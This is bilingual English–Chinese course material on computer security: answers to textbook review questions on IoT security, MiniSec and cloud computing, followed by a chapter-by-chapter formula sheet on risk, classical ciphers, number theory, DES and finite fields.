E9. (Review Question 13.9, Stallings & Brown) What is the IoT security framework?E9.（复习题 13.9，Stallings & Brown）什么是物联网安全框架？
Answer
It is the Cisco secure IoT framework. It spans four levels: smart objects and embedded systems, the fog or edge network, the core network, and the data center or cloud. It has four components:这是思科的安全物联网框架。它覆盖四个层次：智能对象和嵌入式系统、雾或边缘网络、核心网络，以及数据中心或云。它包含四个组件：
- Authentication: identify devices without human credentials, using RFID, X.509 certificates or MAC addresses.认证：在没有人工凭证的情况下识别设备，使用 RFID、X.509 证书或 MAC 地址。
- Authorization: control what each authenticated device may access through the network.授权：控制每个通过认证的设备可以通过网络访问哪些资源。
- Network-enforced policy: route and transport control, management and data traffic securely.网络强制策略：安全地路由和传输控制流量、管理流量和数据流量。
- Secure analytics (visibility and control): central management knows each device's identity and attributes and controls its configuration, patching and threat countermeasures.安全分析（可见性与控制）：集中管理掌握每台设备的身份和属性，并控制其配置、补丁和威胁对策。
Authentication and authorization establish trust between the partners.认证和授权在合作方之间建立信任。
E10. (Review Question 13.10, Stallings & Brown) What is MiniSec?E10.（复习题 13.10，Stallings & Brown）什么是 MiniSec？
Answer
MiniSec is the link-layer security module of TinyOS, an operating system for wireless sensor networks. It gives confidentiality, data authentication and replay protection at a small cost in energy and memory, tolerates lost packets and offers weak freshness. It uses the Skipjack block cipher (80-bit key) in OCB authenticated-encryption mode, with a counter as nonce. MiniSec-U (unicast) uses synchronized counters, rejecting any packet whose counter is not larger than the last accepted; MiniSec-B (broadcast) keeps no per-sender state and uses time epochs and a Bloom filter to detect replays.MiniSec 是 TinyOS 的链路层安全模块。TinyOS 是一个面向无线传感器网络的操作系统。MiniSec 提供机密性、数据认证和重放保护，能耗和内存开销都很小，能容忍丢包，并提供弱新鲜性。它使用 Skipjack 分组密码（80 位密钥）的 OCB 认证加密模式，并以计数器充当一次性随机数（nonce）。MiniSec-U（单播）使用同步计数器，拒绝任何计数器不大于上一个已接受值的数据包；MiniSec-B（广播）不保存每个发送者的状态，而是使用时间纪元和布隆过滤器来检测重放。
E11. (Review Question 22.1, Stallings) What are the essential characteristics of cloud computing?E11.（复习题 22.1，Stallings）云计算的基本特征是什么？
Answer
NIST lists five:NIST 列出了五项：
- On-demand self-service: the consumer provisions computing capability automatically, with no human interaction at the provider.按需自助服务：消费者无需与提供商的人员交互，即可自动配置计算能力。
- Broad network access: capabilities are available over the network through standard mechanisms for thin and thick clients.广泛的网络接入：能力可以通过标准机制在网络上使用，支持瘦客户端和胖客户端。
- Resource pooling: a multi-tenant pool serves many consumers with resources that are dynamically assigned and reassigned.资源池化：多租户资源池为众多消费者提供服务，资源按需动态分配和回收。
- Rapid elasticity: capabilities are quickly expanded and released to match demand.快速弹性：能力可以快速扩展或释放，以匹配需求。
- Measured service: usage is metered and reported to provider and consumer, which enables pay-per-use.可计量服务：使用量被计量并报告给提供商和消费者，从而支持按使用量付费。
E12. (Review Question 22.2, Stallings) List and briefly define the deployment models of cloud computing.E12.（复习题 22.2，Stallings）列出并简要定义云计算的部署模型。
Answer
- Public cloud: owned by a provider that sells services to the general public, outside the enterprise firewall and multi-tenant; cheap and very scalable, but with weaker SLAs and less control over data.公有云：由向大众出售服务的提供商拥有，位于企业防火墙之外，并且是多租户的；成本低、可扩展性很强，但服务等级协议较弱，用户对数据的控制较少。
- Private cloud: run for a single organization, in-house or by a third party, on or off its premises; the most secure, with control of data location, and more costly.私有云：为单个组织运行，可以由组织自建，也可以由第三方代管，位于组织场所之内或之外；安全性最高，能控制数据位置，但成本较高。
- Community cloud: shared by several organizations with similar requirements (for example health care), with restricted access like a private cloud and costs spread over fewer users than in a public cloud.社区云：由具有相似需求的多个组织共享（例如医疗保健行业），访问受限，与私有云类似；成本由比公有云更少的用户分摊。
- Hybrid cloud: two or more clouds (private, community or public) that stay separate but are bound by standard technology for data and application portability, for example cloud bursting to balance load; sensitive data stays in the private part.混合云：由两个或多个云（私有云、社区云或公有云）组成，它们保持各自独立，但通过用于数据和应用可移植性的标准技术绑定在一起，例如通过云突发来均衡负载；敏感数据留在私有部分。
AppendixFormula sheet公式速查
正文里所有 Formula 卡片按章汇总，点卡片标题跳回原处。
Chapter 1 Security Concepts: Threats, Attacks and Assets
\[I_O(\text{system})=\max_{t}\,I_O(t),\qquad O\in\{C,I,A\}\]
- \(I_O(\text{system})\): the impact level of the whole system for objective \(O\)\(I_O(\text{system})\)：整个系统在目标 \(O\) 上的影响等级
- \(I_O(t)\): the impact of losing objective \(O\) for data set \(t\), one of low, moderate or high, ordered low < moderate < high\(I_O(t)\)：数据集 \(t\) 的目标 \(O\) 丢失时的影响，取低、中、高之一，顺序为 低 < 中 < 高
- \(O\): the objective, \(C\) confidentiality, \(I\) integrity, \(A\) availability\(O\)：目标，\(C\) 为机密性，\(I\) 为完整性，\(A\) 为可用性
- \(t\): one data set (information type) of the system\(t\)：系统的一个数据集（信息类型）
\[\text{Risk}=\text{Likelihood}\times\text{Impact}\qquad(\text{expected annual loss}=\text{ARO}\times\text{SLE})\]
- \(\text{Risk}\): the expected loss, in money per year\(\text{Risk}\)：期望损失，以每年的金额计
- \(\text{Likelihood}\) or \(\text{ARO}\): annual rate of occurrence, the probability that a threat exploits a vulnerability within a year, for example 0.2\(\text{Likelihood}\) 或 \(\text{ARO}\)：年发生率，即一年内威胁利用某个漏洞的概率，例如 0.2
- \(\text{Impact}\) or \(\text{SLE}\): single loss expectancy, the loss in money when it happens once, for example $50,000\(\text{Impact}\) 或 \(\text{SLE}\)：单次损失期望，即事件发生一次时的金钱损失，例如 $50,000
- A vulnerability with no threat, or on a worthless asset, carries little risk.若漏洞没有对应的威胁，或位于毫无价值的资产上，则风险较小。
\[c(\text{AND})=\sum_{i}c_i,\qquad c(\text{OR})=\min_{i}c_i\]
- \(c(\text{AND})\) and \(c(\text{OR})\): the cost of an AND-node and of an OR-node, in the same unit as the leaves (money or effort)\(c(\text{AND})\) 和 \(c(\text{OR})\)：与节点和或节点的成本，单位与叶节点相同（金钱或工作量）
- \(c_i\): the cost of child \(i\), where \(i\) runs over the children of the node. Leaves carry given values.\(c_i\)：子节点 \(i\) 的成本，其中 \(i\) 遍历该节点的所有子节点。叶节点带有给定的值。
- The value at the root is the cost of the cheapest attack.根节点的值就是最便宜攻击的成本。
- For independent children with success probabilities \(p_i\): AND gives the product of all \(p_i\), OR gives 1 minus the product of all \((1-p_i)\).对于成功概率为 \(p_i\) 的独立子节点：与节点给出所有 \(p_i\) 的乘积，或节点给出 1 减去所有 \((1-p_i)\) 的乘积。
Chapter 2 Symmetric Cipher Model and Classical Ciphers
\[Y=E(K,X)\qquad X=D(K,Y)\]
- \(X\): the plaintext, a sequence of symbols over a finite alphabet (26 letters classically, \(\{0,1\}\) today)\(X\)：明文，是取自有限字母表的符号序列（经典情形为 26 个字母，今天则为 \(\{0,1\}\)）
- \(Y\): the ciphertext, a sequence of the same kind\(Y\)：密文，是同一类型的符号序列
- \(K\): the secret key shared by sender and receiver\(K\)：发送方和接收方共享的秘密密钥
- \(E\): the encryption algorithm; \(D\): the decryption algorithm\(E\)：加密算法；\(D\)：解密算法
\[T_{\text{avg}}=\frac{N/2}{R}=\frac{2^{n-1}}{R}\]
- \(T_{\text{avg}}\): the average time to find the key, in seconds\(T_{\text{avg}}\)：找到密钥的平均时间，单位为秒
- \(N\): the number of equally likely keys, \(N=2^n\)\(N\)：等可能密钥的数量，\(N=2^n\)
- \(n\): the key length in bits, for example 56\(n\)：密钥长度（比特），例如 56
- \(R\): keys tested per second, for example \(10^9\) for a multicore PC and \(10^{13}\) for a supercomputer\(R\)：每秒测试的密钥数，例如多核 PC 为 \(10^9\)，超级计算机为 \(10^{13}\)
- On average half the keys are tried. Each extra key bit doubles the time.平均而言只需尝试一半的密钥。每多一个密钥比特，时间就翻一倍。
\[C=E(k,p)=(p+k)\bmod 26\qquad p=D(k,C)=(C-k)\bmod 26\]
- \(p\): a plaintext letter as a number from 0 to 25\(p\)：明文字母对应的 0 到 25 之间的数
- \(C\): the ciphertext letter as a number from 0 to 25\(C\)：密文字母对应的 0 到 25 之间的数
- \(k\): the key, the shift, an integer from 1 to 25\(k\)：密钥，即位移量，是 1 到 25 之间的整数
- \(E\) and \(D\): encryption and decryption\(E\) 和 \(D\)：加密和解密
\[C=(ap+b)\bmod 26\qquad p=a^{-1}(C-b)\bmod 26\]
- \(p\) and \(C\): plaintext and ciphertext letters as numbers 0 to 25\(p\) 和 \(C\)：明文字母和密文字母，以 0 到 25 的数表示
- \(a\): the multiplier; it must satisfy \(\gcd(a,26)=1\), so there are 12 choices (1, 3, 5, 7, 9, 11, 15, 17, 19, 21, 23, 25)\(a\)：乘数；它必须满足 \(\gcd(a,26)=1\)，因此有 12 种选择（1、3、5、7、9、11、15、17、19、21、23、25）
- \(b\): the shift, any number from 0 to 25\(b\)：位移量，可以是 0 到 25 之间的任意数
- \(a^{-1}\): the inverse of \(a\) modulo 26, for example \(5^{-1}=21\) because \(5\cdot21=105=4\cdot26+1\)\(a^{-1}\)：\(a\) 模 26 的逆，例如 \(5^{-1}=21\)，因为 \(5\cdot21=105=4\cdot26+1\)
- Number of keys: \(12\times26=312\).密钥数：\(12\times26=312\)。
\[C=PK\bmod 26\qquad P=CK^{-1}\bmod 26\qquad K^{-1}=(\det K)^{-1}\operatorname{adj}K\bmod 26\]
- \(P\) and \(C\): plaintext and ciphertext blocks, row vectors of \(m\) letter numbers\(P\) 和 \(C\)：明文分组和密文分组，是由 \(m\) 个字母编号组成的行向量
- \(K\): the secret key, an invertible \(m\times m\) matrix; \(K^{-1}\): its inverse modulo 26\(K\)：秘密密钥，是一个可逆的 \(m\times m\) 矩阵；\(K^{-1}\)：它模 26 的逆
- \(\det K\): the determinant of \(K\); \((\det K)^{-1}\): its inverse modulo 26\(\det K\)：\(K\) 的行列式；\((\det K)^{-1}\)：它模 26 的逆
- \(\operatorname{adj}K\): the adjugate, the transposed matrix of cofactors\(\operatorname{adj}K\)：伴随矩阵，即代数余子式矩阵的转置
- For \(2\times2\): \(\begin{pmatrix}a&b\\c&d\end{pmatrix}^{-1}=(ad-bc)^{-1}\begin{pmatrix}d&-b\\-c&a\end{pmatrix}\bmod 26\), where \(a,b,c,d\) are the four entries of the matrix.对于 \(2\times2\)：\(\begin{pmatrix}a&b\\c&d\end{pmatrix}^{-1}=(ad-bc)^{-1}\begin{pmatrix}d&-b\\-c&a\end{pmatrix}\bmod 26\)，其中 \(a,b,c,d\) 是矩阵的四个元素。
\[C_i=(p_i+k_{i\bmod m})\bmod 26\qquad p_i=(C_i-k_{i\bmod m})\bmod 26\]
- \(p_i\): the plaintext letter at position \(i\), counted from 0; \(C_i\): the ciphertext letter at position \(i\)\(p_i\)：位置 \(i\) 处的明文字母（从 0 开始计数）；\(C_i\)：位置 \(i\) 处的密文字母
- \(k_0,\dots,k_{m-1}\): the keyword letters as numbers; \(m\): the keyword length, typically shorter than the message\(k_0,\dots,k_{m-1}\)：关键词字母对应的数；\(m\)：关键词长度，通常比消息短
- \(k_{i\bmod m}\): the key letter used at position \(i\); the keyword repeats\(k_{i\bmod m}\)：位置 \(i\) 处所用的密钥字母；关键词会重复使用
- Each plaintext letter gets its own Caesar shift.每个明文字母都对应一个各自的凯撒位移。
\[c_i=p_i\oplus k_i\qquad p_i=c_i\oplus k_i\]
- \(p_i\): the plaintext bit at position \(i\); \(k_i\): the key bit at position \(i\); \(c_i\): the ciphertext bit at position \(i\)\(p_i\)：位置 \(i\) 处的明文比特；\(k_i\)：位置 \(i\) 处的密钥比特；\(c_i\)：位置 \(i\) 处的密文比特
- \(\oplus\): XOR. Since \(k\oplus k=0\), the same operation decrypts.\(\oplus\)：XOR。由于 \(k\oplus k=0\)，同一运算也可以解密。
Chapter 3 Number Theory for Cryptography
\[a=qn+r,\qquad 0\le r<n,\qquad q=\lfloor a/n\rfloor\]
- \(a\): the integer that is divided, positive or negative\(a\)：被除的整数，可正可负
- \(n\): the divisor, here called the modulus, a positive integer\(n\)：除数，这里称为模数，是一个正整数
- \(q\): the quotient, \(\lfloor a/n\rfloor\) being the largest integer not above \(a/n\)\(q\)：商，\(\lfloor a/n\rfloor\) 是不超过 \(a/n\) 的最大整数
- \(r\): the remainder, written \(a \bmod n\); \(q\) and \(r\) are unique\(r\)：余数，记作 \(a \bmod n\)；\(q\) 和 \(r\) 都是唯一的
- \(11=1\times7+4\) and \(-11=(-2)\times7+3\), so \(-11 \bmod 7=3\), never \(-4\)\(11=1\times7+4\) 和 \(-11=(-2)\times7+3\) 之间应当用 \(-11 \bmod 7=3\) 连接，绝不能写成 \(-4\)
\[[(a \bmod n)\circ(b \bmod n)] \bmod n=(a\circ b) \bmod n,\qquad \circ\in\{+,-,\times\}\]
- \(a\), \(b\): any integers; \(n\): the modulus, a positive integer\(a\)，\(b\)：任意整数；\(n\)：模数，是一个正整数
- \(\circ\): one of the operations addition, subtraction or multiplication\(\circ\)：加法、减法或乘法之一的运算
- Reduce before the operation, after it, or at every step: the result is the same. Division is not included (Step 4).可以在运算前取模，也可以在运算后取模，或者在每一步都取模：结果都一样。除法不在此列（见第 4 步）。
- \(11 \bmod 8=3\) and \(15 \bmod 8=7\). Then \((3+7) \bmod 8=2=26 \bmod 8\) and \((3\times7) \bmod 8=5=165 \bmod 8\).先 \(11 \bmod 8=3\) 和 \(15 \bmod 8=7\)，然后 \((3+7) \bmod 8=2=26 \bmod 8\) 和 \((3\times7) \bmod 8=5=165 \bmod 8\)。
\[\gcd(a,b)=\gcd(b,\ a \bmod b)\qquad(a\ge b>0)\]
- \(a\), \(b\): the two positive integers, with \(a\ge b\)\(a\)，\(b\)：两个正整数，且 \(a\ge b\)
- \(a \bmod b\): the remainder of \(a\) divided by \(b\)\(a \bmod b\)：\(a\) 除以 \(b\) 的余数
- Repeat until the remainder is 0. Since \(\gcd(x,0)=x\), the last nonzero remainder is the gcd.重复直到余数为 0。由于 \(\gcd(x,0)=x\)，最后一个非零余数就是 gcd。
- Why: \(a \bmod b=a-kb\) for some \(k\), so \((a,b)\) and \((b,a \bmod b)\) have the same common divisors.原因：对某个 \(k\) 有 \(a \bmod b=a-kb\)，因此 \((a,b)\) 与 \((b,a \bmod b)\) 有相同的公因子。
\[q_i=\lfloor r_{i-2}/r_{i-1}\rfloor,\quad r_i=r_{i-2}-q_ir_{i-1},\quad x_i=x_{i-2}-q_ix_{i-1},\quad y_i=y_{i-2}-q_iy_{i-1}\]
- \(a\), \(b\): the two starting numbers; \(d=\gcd(a,b)\)\(a\)，\(b\)：两个起始数；\(d=\gcd(a,b)\)
- \(r_i\): the remainder of row \(i\), always equal to \(ax_i+by_i\)\(r_i\)：第 \(i\) 行的余数，总是等于 \(ax_i+by_i\)
- \(q_i\): the quotient of row \(i\), the whole-number result of \(r_{i-2}/r_{i-1}\)\(q_i\)：第 \(i\) 行的商，即 \(r_{i-2}/r_{i-1}\) 的整数结果
- \(x_i\), \(y_i\): the coefficients of \(a\) and \(b\) in row \(i\)\(x_i\)，\(y_i\)：第 \(i\) 行中 \(a\) 和 \(b\) 的系数
- Start: \((r_{-1},x_{-1},y_{-1})=(a,1,0)\) and \((r_0,x_0,y_0)=(b,0,1)\)开始：\((r_{-1},x_{-1},y_{-1})=(a,1,0)\) 和 \((r_0,x_0,y_0)=(b,0,1)\)
- Stop when the next remainder is 0. Then \(d=r_n\), \(x=x_n\), \(y=y_n\) for the last nonzero row \(n\).当下一个余数为 0 时停止。然后取最后一个非零行 \(n\) 的 \(d=r_n\)、\(x=x_n\)、\(y=y_n\)。
\[ax+ny=1\ \Longrightarrow\ a^{-1}\equiv x \pmod n\]
- \(a\): the number to invert; \(n\): the modulus; \(\gcd(a,n)\) must be 1\(a\)：要求逆的数；\(n\)：模数；\(\gcd(a,n)\) 必须为 1
- \(x\), \(y\): the Bézout coefficients from the extended algorithm; \(x\) is the coefficient of \(a\)\(x\)，\(y\)：来自扩展算法的 Bézout 系数；\(x\) 是 \(a\) 的系数
- \(a^{-1}\): the inverse, a number with \(a\,a^{-1}\equiv1 \pmod n\); reduce \(x\) into \(0,\dots,n-1\)\(a^{-1}\)：逆元，是一个满足 \(a\,a^{-1}\equiv1 \pmod n\) 的数；把 \(x\) 化简到 \(0,\dots,n-1\) 中
- Reason: reducing \(ax+ny=1\) modulo \(n\) leaves \(ax\equiv1\). If \(\gcd(a,n)>1\), no inverse exists.原因：把 \(ax+ny=1\) 对 \(n\) 取模后，得到 \(ax\equiv1\)。如果 \(\gcd(a,n)>1\)，则不存在逆元。
\[p\text{ prime},\ p\nmid a\ \Longrightarrow\ a^{p-1}\equiv1 \pmod p;\qquad a^{p}\equiv a \pmod p\ \text{ for every } a\]
- \(p\): a prime number; \(a\): an integer, for example 7 with \(p=19\)\(p\)：一个素数；\(a\)：一个整数，例如 \(p=19\) 为 7 时
- \(p\nmid a\) means that \(p\) does not divide \(a\)\(p\nmid a\) 表示 \(p\) 不整除 \(a\)
- The second form needs no condition on \(a\): \(10^5\equiv0\equiv10 \pmod 5\)第二种形式对 \(a\) 不需要任何条件：\(10^5\equiv0\equiv10 \pmod 5\)
- Example: \(7^2\equiv11\), \(7^4\equiv7\), \(7^8\equiv11\), \(7^{16}\equiv7\), so \(7^{18}=7^{16}\times7^2\equiv7\times11=77\equiv1 \pmod{19}\)例如：\(7^2\equiv11\)，\(7^4\equiv7\)，\(7^8\equiv11\)，\(7^{16}\equiv7\)，所以 \(7^{18}=7^{16}\times7^2\equiv7\times11=77\equiv1 \pmod{19}\)
\[\phi(p)=p-1,\qquad \phi(p^k)=p^k-p^{k-1},\qquad \phi(mn)=\phi(m)\,\phi(n)\ \text{ if }\gcd(m,n)=1\]
- \(\phi(\cdot)\): the totient, a count of integers\(\phi(\cdot)\)：欧拉函数，即计数整数的个数
- \(p\): a prime; \(k\): an exponent, a positive integer\(p\)：一个素数；\(k\)：一个指数，是正整数
- \(m\), \(n\): two relatively prime positive integers\(m\)，\(n\)：两个互素的正整数
- Hence \(\phi(pq)=(p-1)(q-1)\) for distinct primes \(p\) and \(q\). Computing \(\phi(n)\) needs the factorisation of \(n\).因此，对于不同的素数 \(p\) 和 \(q\)，有 \(\phi(pq)=(p-1)(q-1)\)。计算 \(\phi(n)\) 需要对 \(n\) 做因式分解。
\[\gcd(a,n)=1\ \Longrightarrow\ a^{\phi(n)}\equiv1 \pmod n;\qquad a^{\phi(n)+1}\equiv a \pmod n\ \text{ if } n \text{ is squarefree}\]
- \(a\): an integer relatively prime to \(n\); \(n\): the modulus, any positive integer\(a\)：与 \(n\) 互素的整数；\(n\)：模数，可以是任意正整数
- \(\phi(n)\): the totient from Step 3\(\phi(n)\)：来自第 3 步的欧拉函数
- Squarefree（无平方因子）: no prime appears twice in \(n\), for example \(n=pq\). Then the second form holds for every \(a\).无平方因子：\(n\) 中没有素数出现两次，例如 \(n=pq\)。这时第二种形式对每个 \(a\) 都成立。
- Exponent reduction: \(a^k\equiv a^{k \bmod \phi(n)} \pmod n\) for \(\gcd(a,n)=1\), where \(k\) is any exponent指数化简：对 \(\gcd(a,n)=1\) 有 \(a^k\equiv a^{k \bmod \phi(n)} \pmod n\)，其中 \(k\) 为任意指数
- Inverse: \(a^{-1}\equiv a^{\phi(n)-1} \pmod n\). Example: \(3^{-1} \bmod 11=3^9\equiv4\).逆元：\(a^{-1}\equiv a^{\phi(n)-1} \pmod n\)。例如：\(3^{-1} \bmod 11=3^9\equiv4\)。
\[\Pr[\text{composite } n \text{ passes } t \text{ random bases}]\le4^{-t},\qquad \text{candidates}\approx\tfrac12\ln n\]
- \(n\): the odd number tested; \(t\): the number of independent random bases used\(n\)：所测试的奇数；\(t\)：所用的独立随机基的数目
- \(\Pr[\cdot]\): probability; \(\ln n\): the natural logarithm of \(n\)\(\Pr[\cdot]\)：概率；\(\ln n\)：\(n\) 的自然对数
- \(t=10\) gives an error below \(10^{-6}\). \(t=50\) gives at most \(2^{-100}\).\(t=10\) 给出的错误低于 \(10^{-6}\)。\(t=50\) 给出的错误至多为 \(2^{-100}\)。
- Candidates: the average number of random odd numbers near \(n\) to test before a prime appears. Primes near \(n\) are about \(\ln n\) apart, and skipping even numbers halves this. For \(n\approx2^{200}\): \(\tfrac12\ln2^{200}\approx69\).候选数：在一个素数出现之前，平均需要测试的、接近 \(n\) 的随机奇数个数。接近 \(n\) 的素数之间的间距约为 \(\ln n\)，跳过偶数则将其减半。对于 \(n\approx2^{200}\)：\(\tfrac12\ln2^{200}\approx69\)。
\[M_i=\frac{M}{m_i},\qquad c_i=M_i\,(M_i^{-1} \bmod m_i),\qquad x\equiv\sum_{i=1}^{k}a_ic_i \pmod M\]
- \(m_i\): the \(i\)-th modulus; \(k\): the number of congruences; \(M=m_1\cdots m_k\)\(m_i\)：第 \(i\) 个模数；\(k\)：同余式的个数；\(M=m_1\cdots m_k\)
- \(a_i\): the given remainder for modulus \(m_i\); \(x\): the solution, unique modulo \(M\)\(a_i\)：模数 \(m_i\) 对应的给定余数；\(x\)：解，在模 \(M\) 下唯一
- \(M_i\): the product of all moduli except \(m_i\)\(M_i\)：除 \(m_i\) 之外所有模数的乘积
- \(M_i^{-1}\): the inverse of \(M_i\) modulo \(m_i\); it exists because \(\gcd(M_i,m_i)=1\) (Section 3.2)\(M_i^{-1}\)：\(M_i\) 模 \(m_i\) 的逆元；它存在，因为 \(\gcd(M_i,m_i)=1\)（见第 3.2 节）
- \(c_i\): it is \(\equiv1 \pmod{m_i}\) and \(\equiv0 \pmod{m_j}\) for \(j\ne i\), because \(m_j\mid M_i\). So \(x\equiv a_i \pmod{m_i}\).\(c_i\)：它对 \(j\ne i\) 来说是 \(\equiv1 \pmod{m_i}\) 和 \(\equiv0 \pmod{m_j}\)，因为 \(m_j\mid M_i\)。所以 \(x\equiv a_i \pmod{m_i}\)。
\[\mathrm{dlog}_{a,p}(xy)\equiv\mathrm{dlog}_{a,p}(x)+\mathrm{dlog}_{a,p}(y),\qquad \mathrm{dlog}_{a,p}(y^r)\equiv r\cdot\mathrm{dlog}_{a,p}(y)\pmod{p-1}\]
- \(\mathrm{dlog}_{a,p}(b)\): the exponent \(i\) with \(a^i\equiv b \pmod p\); \(a\): a primitive root of the prime \(p\)\(\mathrm{dlog}_{a,p}(b)\)：指数 \(i\) 满足 \(a^i\equiv b \pmod p\)；\(a\)：素数 \(p\) 的一个本原根
- \(x\), \(y\): nonzero residues modulo \(p\); \(r\): an integer exponent\(x\)，\(y\)：模 \(p\) 的非零剩余；\(r\)：一个整数指数
- The laws are those of ordinary logarithms, but the arithmetic on exponents is modulo \(p-1=\phi(p)\).其规则与普通对数相同，但指数上的运算是模 \(p-1=\phi(p)\) 的。
Chapter 4 Block Ciphers and DES
\[N_{\text{rev}}=(2^n)!\]
- \(N_{\text{rev}}\): the number of different reversible mappings on \(n\)-bit blocks\(N_{\text{rev}}\)：在 \(n\) 位分组上不同的可逆映射的个数
- \(n\): block size in bits, for example 3\(n\)：分组长度（位数），例如 3
- \(x!\): the factorial, \(x\cdot(x-1)\cdots2\cdot1\). Here \(2^n=8\) for \(n=3\), so \(N_{\text{rev}}=8!=40\,320\). For \(n=2\) it is \(4!=24\).\(x!\)：阶乘，\(x\cdot(x-1)\cdots2\cdot1\)。这里 \(2^n=8\)，对 \(n=3\) 来说就是 \(N_{\text{rev}}=8!=40\,320\)。对 \(n=2\) 则为 \(4!=24\)。
\[L_{\text{key}}=n\cdot 2^n\ \text{bits}\]
- \(L_{\text{key}}\): the length of the key, which is the whole mapping table, in bits\(L_{\text{key}}\)：密钥长度（位数），密钥就是整张映射表
- \(n\): block size in bits; \(2^n\): number of table entries, each of \(n\) bits\(n\)：分组长度（位）；\(2^n\)：表项个数，每项 \(n\) 位
- \(n=4\): \(4\cdot16=64\) bits. \(n=64\): \(64\cdot2^{64}=2^{70}\approx1.2\times10^{21}\) bits.\(n=4\)：\(4\cdot16=64\) 位。\(n=64\)：\(64\cdot2^{64}=2^{70}\approx1.2\times10^{21}\) 位。
\[LE_i=RE_{i-1},\qquad RE_i=LE_{i-1}\oplus F(RE_{i-1},K_i)\]
- \(LE_i\), \(RE_i\): left and right half after round \(i\), each of \(w\) bits; \(LE_{i-1}\), \(RE_{i-1}\): the halves before it\(LE_i\)、\(RE_i\)：第 \(i\) 轮之后的左半和右半，各 \(w\) 位；\(LE_{i-1}\)、\(RE_{i-1}\)：该轮之前的两半。
- \(i\): round number, \(i=1,\dots,n\); \(n\): number of rounds\(i\)：轮数，\(i=1,\dots,n\)；\(n\)：总轮数
- \(F\): the round function. It takes a \(w\)-bit half and a subkey and returns \(w\) bits.\(F\)：轮函数。它输入一个 \(w\) 位的半块和一个子密钥，输出 \(w\) 位。
- \(K_i\): the subkey of round \(i\); \(\oplus\): bitwise XOR\(K_i\)：第 \(i\) 轮的子密钥；\(\oplus\)：按位异或
- After round \(n\) the halves are swapped once more: the ciphertext is \(RE_n\Vert LE_n\).第 \(n\) 轮之后两半再交换一次：密文为 \(RE_n\Vert LE_n\)。
\[RE_{i-1}=LE_i,\qquad LE_{i-1}=RE_i\oplus F(LE_i,K_i)\]
- Symbols as in "Feistel round (encryption)"符号与“Feistel 轮（加密）”中的相同。
- It recovers the halves before round \(i\) from the halves after it and from \(K_i\).它由第 \(i\) 轮之后的两半和 \(K_i\) 恢复出该轮之前的两半。
- \(F\) is only computed forwards, on a known value. So \(F\) need not be invertible. Even a constant \(F\) works.\(F\) 只向前计算，作用于已知的值。因此 \(F\) 不必可逆。即使是常数 \(F\) 也可以。
\[T_{\text{avg}}=\frac{2^{k-1}}{r}\ \text{seconds}\]
- \(T_{\text{avg}}\): the average time of the search, in seconds\(T_{\text{avg}}\)：搜索的平均时间（秒）
- \(k\): key length in bits, for example 56; \(2^{k-1}\): half of the key space\(k\)：密钥长度（位），例如 56；\(2^{k-1}\)：密钥空间的一半
- \(r\): keys tested per second, for example \(10^9\) for a multicore PC\(r\)：每秒测试的密钥数，例如多核 PC 上的 \(10^9\)
- One year is about \(3.16\times10^{7}\) s. The worst case takes twice as long, \(2^k/r\).一年约为 \(3.16\times10^{7}\) 秒。最坏情况需要两倍的时间，即 \(2^k/r\)。
\[\Pr\left[y_j\text{ changes}\mid x_i\text{ inverted}\right]=\tfrac12\quad\text{for all }i,j\]
- \(x_i\): input bit number \(i\) of an S-box (or of \(F\)); \(y_j\): output bit number \(j\)\(x_i\)：S 盒（或 \(F\)）的第 \(i\) 个输入位；\(y_j\)：第 \(j\) 个输出位
- \(\Pr\): probability, taken over all inputs; "inverted" means flipped from 0 to 1 or from 1 to 0\(\Pr\)：概率，对所有输入取值求平均；“取反”指从 0 变为 1 或从 1 变为 0
- BIC: output bits \(j\) and \(k\) change independently when any single input bit \(i\) is inverted.BIC：当任一输入位 \(i\) 被取反时，输出位 \(j\) 与 \(k\) 独立地变化。
Chapter 5 Finite Fields
\[ax+by=\gcd(a,b)=1\;\Rightarrow\;b^{-1}\equiv y\pmod a\]
- \(a\): the modulus, here the prime \(p\), for example 1759\(a\)：模数，这里是素数 \(p\)，例如 1759
- \(b\): the element whose inverse we want, with \(0<b<a\), for example 550\(b\)：要求逆元的元素，并且满足 \(0<b<a\)，例如 550
- \(x\), \(y\): integers with \(ax+by=1\). Reducing mod \(a\) leaves \(by\equiv1\), so \(y\) is the inverse.\(x\)、\(y\)：满足 \(ax+by=1\) 的整数。按模 \(a\) 化简后得到 \(by\equiv1\)，所以 \(y\) 就是逆元。
- Start with \(r_{-1}=a\), \(r_0=b\), \(y_{-1}=0\), \(y_0=1\). Repeat \(q_i=\lfloor r_{i-2}/r_{i-1}\rfloor\), \(r_i=r_{i-2}-q_i r_{i-1}\) and \(y_i=y_{i-2}-q_i y_{i-1}\) until \(r_i=1\).从 \(r_{-1}=a\)、\(r_0=b\)、\(y_{-1}=0\)、\(y_0=1\) 开始。重复计算 \(q_i=\lfloor r_{i-2}/r_{i-1}\rfloor\)、\(r_i=r_{i-2}-q_i r_{i-1}\) 和 \(y_i=y_{i-2}-q_i y_{i-1}\)，直到 \(r_i=1\)。
- \(q_i\): the whole-number quotient in step \(i\); \(r_i\): the remainder; \(y_i\): the coefficient that we track. The inverse is \(y_i \bmod a\) (add \(a\) if \(y_i\) is negative).\(q_i\)：第 \(i\) 步中的整数商；\(r_i\)：余数；\(y_i\)：我们跟踪的系数。逆元是 \(y_i \bmod a\)（若 \(y_i\) 为负，则加上 \(a\)）。
\[f(x)=q(x)\,g(x)+r(x),\qquad \deg r<\deg g\]
- \(f(x)\): the dividend, for example \(x^3+x^2+2\); \(g(x)\): the divisor, not zero, for example \(x^2-x+1\)\(f(x)\)：被除式，例如 \(x^3+x^2+2\)；\(g(x)\)：除式，不能为零，例如 \(x^2-x+1\)
- \(q(x)\): the quotient; its degree is \(\deg f-\deg g\). Here \(q(x)=x+2\).\(q(x)\)：商；其次数为 \(\deg f-\deg g\)。这里为 \(q(x)=x+2\)。
- \(r(x)\): the remainder, written \(f(x)\bmod g(x)\). Here \(r(x)=x\).\(r(x)\)：余式，记作 \(f(x)\bmod g(x)\)。这里为 \(r(x)=x\)。
- The coefficients lie in a field. If \(r(x)=0\), then \(g(x)\) divides \(f(x)\).系数取自一个域。若 \(r(x)=0\)，则 \(g(x)\) 整除 \(f(x)\)。
\[\gcd[a(x),b(x)]=\gcd[b(x),\,a(x)\bmod b(x)]\]
- \(a(x)\), \(b(x)\): the two polynomials, with \(\deg a(x)\ge\deg b(x)\)\(a(x)\)、\(b(x)\)：两个多项式，满足 \(\deg a(x)\ge\deg b(x)\)
- \(a(x)\bmod b(x)\): the remainder of the division of \(a(x)\) by \(b(x)\)\(a(x)\bmod b(x)\)：\(a(x)\) 除以 \(b(x)\) 的余式
